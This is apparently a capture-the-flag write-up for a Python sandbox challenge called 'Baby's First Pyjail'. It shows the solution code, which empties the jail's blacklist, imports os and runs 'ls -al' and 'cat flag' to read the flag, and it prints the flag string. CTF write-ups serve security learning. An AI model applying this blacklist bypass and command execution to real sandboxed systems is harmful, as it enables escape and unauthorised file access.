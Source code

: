 # Baby's First Pyjail (100 pts)

![baby's first pyjail](img/babys-first-py-jail.png)

```python
# List the attributes and the blacklist
print(dir())
# Make the blacklist empty
blacklist = []
# import os to execute command and get flag~
import os; os.system("ls -al")
os.system("cat flag")
```

![](img/babys-first-py-jail-flag.png)

`Flag: uoftctf{you_got_out_of_jail_free}`
